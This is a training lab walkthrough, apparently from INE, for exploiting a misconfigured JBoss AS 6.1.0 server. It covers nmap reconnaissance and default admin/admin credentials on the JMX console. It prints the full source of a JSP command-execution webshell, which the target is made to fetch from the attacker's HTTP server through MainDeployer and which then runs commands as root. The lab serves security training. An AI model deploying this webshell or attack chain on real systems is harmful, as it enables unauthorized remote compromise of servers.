









# 8080 JBoss AS Instance 6.1.0 

Copied from INE lab:  HTML Adapter to Root

**Step 1:** Open the lab link to access the Kali GUI instance.


**Step 2:** Check if the provided machine/domain is reachable.

**Command:**

```
ping -c3 demo.ine.local
```


The provided machine is reachable.

**Step 3:** Check open ports on the provided machine.

**Command:**

```
nmap -sS -sV demo.ine.local
```




Multiple ports are open on the target machine.

Some notable services include Java RMI, Apache Tomcat, and the JBoss application server.

**What is Java RMI?**

The Java Remote Method Invocation (RMI) system allows an object running in one Java virtual machine to invoke methods on an object running in another Java virtual machine. RMI provides for remote communication between programs written in the Java programming language.

**Reference:** https://docs.oracle.com/javase/tutorial/rmi/index.html

**What is Apache Tomcat?**

Apache Tomcat is a free and open-source implementation of the Jakarta Servlet, Jakarta Expression Language, and WebSocket technologies. It provides a "pure Java" HTTP web server environment in which Java code can run.

**Reference:** https://en.wikipedia.org/wiki/Apache_Tomcat

**What is JBoss application server?**

JBoss application server is an open-source platform, developed by Red Hat, used for implementing Java applications and a wide variety of other software applications. You can build and deploy Java services to be scaled to fit the size of your business.

**Reference:** https://www.dnsstuff.com/what-is-jboss-application-server

**Step 4:** Check the application served by Apache Tomcat.

Open the following URL in the browser:

**URL:** http://demo.ine.local:8080


Notice that the target is serving the JBoss application server (version 6.1.0).

**Step 5:** Access the JMX console.

Click on the **JMX Console** link:



**What is JMX?**

Java Management Extensions (JMX) is a Java technology that supplies tools for managing and monitoring applications, system objects, devices (such as printers) and service-oriented networks. Those resources are represented by objects called MBeans (for Managed Bean).

**Reference:** https://en.wikipedia.org/wiki/Java_Management_Extensions

Using the JMX console, we can manage the application and, therefore, alter it to execute malicious code on the target server and gain remote code execution.

**What is an MBean?**

An MBean is a managed Java object, similar to a JavaBeans component, that follows the design patterns set forth in the JMX specification. An MBean can represent a device, an application, or any resource that needs to be managed.

**Reference:** https://docs.oracle.com/javase/tutorial/jmx/mbeans/index.html

Once the JMX Console is clicked, you should be presented with an authentication dialog:



Searching online for the default credentials for JBoss:



Click on the [StackOverflow link](https://stackoverflow.com/questions/5415608/jboss-default-password) from the results:


The default credentials for JBoss web console are:

**Username:** admin  
**Password:** admin

Submit these credentials to the authentication dialog:


The above credentials were accepted, and the login was successful!



You should have access to the **JMX Agent View** page now.

Using this page, one can manage the deployed applications and even alter them.

**Step 6:** Search for the **MainDeployer** (JBoss System API).

Apply the following filter:

**Filter:**  

```
jboss.system*
```


Select the entry for **MainDeployer**.


**Information:** The MainDeployer service can be used to manage deployments on the JBoss application server. For that reason, this API is quite crucial from a pentester's perspective.

Once the **MainDeployer** service is selected, you should see the following page:


Scroll down to the **redeploy** attribute. Make sure the **redeploy** attribute accepts a URL as the input (**java.net.URL**):



We will be invoking this method to deploy a malicious JSP application, one that gives us a webshell.

**Step 7:** Prepare the payload for deployment.

Head over to the following URL:

**URL:** https://github.com/fuzzdb-project/fuzzdb/blob/master/web-backdoors/jsp/cmd.jsp


Open the code in raw form (click the **Raw** button):


Copy the payload (press `CTRL+SHIFT+ALT`) and save it as **backdoor.jsp**:

```
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
    out.println("Command: " + request.getParameter("cmd") + "<BR>");
    Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
        out.println(disr); 
        disr = dis.readLine(); 
        }
    }
%>
</pre>
</BODY></HTML>
```





If the GET request contains the `cmd` parameter, the specified command is executed, and the results are displayed on the web page.

Generate a WAR (Web Application Resource or Web application ARchive) file for deployment:

**Commands:**  

```
jar -cvf backdoor.war backdoor.jsp
file backdoor.war
```


The payload application is generated.

**Step 8:** Deploy the payload application on the target server.

Check the IP address of the attacker machine:

**Command:**  

```
ip addr
```


The IP address of the attacker machine is `192.166.140.2`.

**Note:** The IP addresses assigned to the labs are bound to change with every lab run. Kindly replace the IP addresses in the subsequent commands with the one assigned to your attacker machine. Failing to do that would result in failed exploitation attempts.

Start a Python-based HTTP server to serve the payload application:

**Command:**  

```
python3 -m http.server 80
```


Head over to the JMX Console page and under the **redeploy** attribute, place the following URL as the parameter:

**URL:**  

```
http://192.166.140.2/backdoor.war
```

**Note:** Kindly make sure to substitute the correct IP address in the above URL.


Once the payload application URL is specified, click on the **Invoke** button:


The operation was successful, as shown in the above image!

Check the terminal where the Python-based HTTP server was running:


Notice that there is a request from the target machine for the `backdoor.war` file.

**Step 9:** Access the webshell and run OS commands.

Visit the following URL:

**URL:**  

```
http://demo.ine.local:8080/backdoor/backdoor.jsp
```


There is a simple webshell.

Send the `id` command:


We are running as `root`!

Send the `pwd` command:


List the files in the current directory (`ls -al`):



That was all for this lab on abusing a misconfigured JBoss application server to access the JMX console (default credentials) and leveraging it to deploy a webshell.

To summarize, we performed recon on the target machine to determine the presence of JBoss AS. We found that the JMX console accepted default credentials and leveraged it to deploy a malicious application to execute arbitrary commands on the target server as root.